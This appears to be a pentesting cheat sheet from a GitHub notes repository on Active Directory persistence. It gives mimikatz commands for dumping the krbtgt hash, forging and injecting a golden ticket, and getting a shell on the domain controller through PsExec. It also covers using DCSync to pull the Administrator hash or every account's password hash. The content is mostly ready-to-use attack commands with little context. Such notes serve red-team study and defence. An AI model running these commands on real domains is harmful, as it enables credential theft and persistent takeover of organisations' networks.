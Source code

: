 # Persistance


## Golden Tickets

If we have access to the DC with privilege rights we can grab the krbtgt password hash in order to create our own self-made custom TGTs, or golden tickets.

**Step 1:** Substract krbtgt's NTLM hash:

```bash
privilege::debug

lsadump::lsa /patch
```

**Step 2:** In the client machine, create a golden TGT ticket, inject it (/ptt) and open a cmd:

```bash
kerberos::golden /user:fakeuser /domain:$DOMAINNAME /sid:$SID /krbtgt:$KRBTGTHASH /ptt

misc::cmd
```

**Step 3:** Access the DC though PsExec:

```bash
PsExec.exe \\$DCHOSTNAME cmd.exe
```

_____

## DC Synchronization

Since there could be more than 1 DC in order to achieve redundancy, if we have access to a member of the Domain Admins group (without logging in to the DC) we can use the following technique in order to perform a replication from a specific object.

### Replicate built-in AD Administrator account

```bash
mimikatz.exe

lsadump::dcsync /user:Administrator
#The output will show the NTLM hash of the Administrator account
```

**Note:** We can request a replication update to obtain the password hashes of every account in AD.
